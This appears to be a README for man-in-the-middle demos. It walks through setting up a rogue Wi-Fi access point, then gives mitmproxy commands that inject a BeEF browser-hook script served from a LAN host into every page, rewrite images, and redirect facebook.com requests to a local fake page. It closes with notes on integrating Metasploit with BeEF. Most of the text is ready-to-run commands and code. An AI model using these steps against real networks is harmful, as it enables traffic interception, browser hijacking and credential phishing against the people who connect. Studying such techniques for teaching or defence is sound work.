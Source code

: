 # Man-in-the-Middle Demo's

## NOTE:

* Kali and Ubuntu differ in that wlan1 becomes mon0 on Kali and wlan1mon on Ubuntu

### General.

In these `instructions` we will outline a number of demos that can be run by setting up a *man-in-the-middle* network.


### Setting up the network.

We have created two scripts that we need for this demo:
`start_accesspoint.sh` and `stop_accesspoint.sh`. Obviously, when closing the network we need to run the `stop_accesspoint.sh` script to make sure all settings are set back.

To start the network we need to run the `start_accesspoint.sh` script as the super-user. 

~~~bash
$ su
Password: *
~~~

We also need 3 inputs for the script to generate the network: (1) `<GATEWAY>` is the *gateway ip-address* of the network you are currently on. 

~~~bash
$ route -n


# On a MacOSX
$ route -n get default
   route to: default
destination: default
       mask: default
    gateway: 172.16.1.1
  interface: en0
      flags: <UP,GATEWAY,DONE,STATIC,PRCLONING>
 recvpipe  sendpipe  ssthresh  rtt,msec    rttvar  hopcount      mtu     expire
       0         0         0         0         0         0      1500         0
~~~

Input (2) `<INTERNET-DEVICE>` is the *device that the laptop uses to connect to the internet externally*. Make sure this is either `wlan0` or `eth0` (if you are connected via ethernet).

~~~bash
$ ./start_accesspoint.sh <GATEWAY> <INTERNET-DEVICE> "<NETWORK NAME>"
~~~

To stop use `CTRL-C`

~~~bash
$ ./stop_accesspoint.sh
~~~


### Man-in-the-middle Proxy

First we need to enter the virtual environment to be able run the `mitmproxy` scripts.

~~~bash
$ cd Desktop/tmp
$ . env/bin/activate
~~~

To replace every image on a page with another image use the following line

~~~bash
$ mitmproxy -T --host --replace :~hq~s:"<img\s[^>]*?src\s*=\s*['\"]([^'\"]*?)['\"][^>]*?>":"<img src=\"XXXX-URL-TO-IMAGE-XXXX\">"
~~~

it basically matches a regex and replaces the `img` tag with a new one. This clearly does not work for css-driven image placements.

Injecting code into other webpages.

~~~bash
$ mitmproxy -T --host --replace :~hq~s:"<head>":"<head><script src=\"http://192.168.1.XX:3000/hook.js\" type=\"text/javascript\"></script>"
~~~

this will inject the `beef-hook` into pages.

~~~bash
$ mitmproxy -T --host -s scripts-mitm/redirect_request.py
~~~

This file looks a bit as follows

~~~python
from libmproxy.protocol.http import HTTPResponse
from netlib.odict import ODictCaseless

def request( context, flow ):
	# Get the hostname.
	flower = flow.request.pretty_host(hostheader=True)
	print "\tRequested domain: {}".format( flower )
	# Redirect
	if flower.endswith("facebook.com"):
		flow.request.host = "localhost"
		flow.request.port = 9999
		flow.request.path = "facebook.html"
		flow.request.update_host_header()
~~~

## Setting up metasploit with beef

* All works, except the metasploit web UI - I seem to have damaged the database somehow.
* http://samiux.blogspot.hk/2013/05/howto-beef-and-metasploit-integration.html - great link
